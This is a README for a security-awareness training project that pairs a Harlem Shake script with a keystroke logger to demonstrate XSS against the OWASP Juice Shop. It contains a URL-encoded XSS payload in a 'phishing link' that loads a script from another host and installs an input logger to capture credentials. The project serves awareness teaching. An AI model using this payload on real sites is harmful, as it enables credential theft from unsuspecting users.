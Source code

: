 # shake-logger
This projects provides a logger and a connected harlem shake js. The shake logger runs on port 8080, make sure that it is not blocked.

Please enable [autoplay](https://www.ghacks.net/2018/02/06/how-to-control-audio-and-video-autoplay-in-google-chrome/) in your browser.

# Juice Shop
This projects helps in awareness trainings, specally with the [juice shop](https://github.com/bkimminich/juice-shop).
You can use it via docker and docker-compose running:
´docker-compose up´

To show the possible impact of [XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)), assume you received and (of course) clicked
[this inconspicuous phishing link](http://localhost:3000/#/search?q=%3Cimg%20src%3D%22bha%22%20onError%3D%27javascript%3Aeval%28%60var%20js%3Ddocument.createElement%28%22script%22%29%3Bjs.type%3D%22text%2Fjavascript%22%3Bjs.src%3D%22http%3A%2F%2Flocalhost%3A8080%2Fshake.js%22%3Bdocument.body.appendChild%28js%29%3Bvar%20hash%3Dwindow.location.hash%3Bwindow.location.hash%3D%22%23%2Fsearch%3Fq%3Dapple%22%3BsearchQuery.value%20%3D%20%22apple%22%3B%60%29%27%3C%2Fimg%3Eapple)
and login. Apart from the visual/audible effect, the attacker also
installed [an input logger](http://localhost:8080/logger.php) to grab credentials! This could easily run on a 3rd party server in real life!

> You can also find a recording of this attack in action on YouTube:
> [:tv:](https://www.youtube.com/watch?v=L7ZEMWRm7LA)
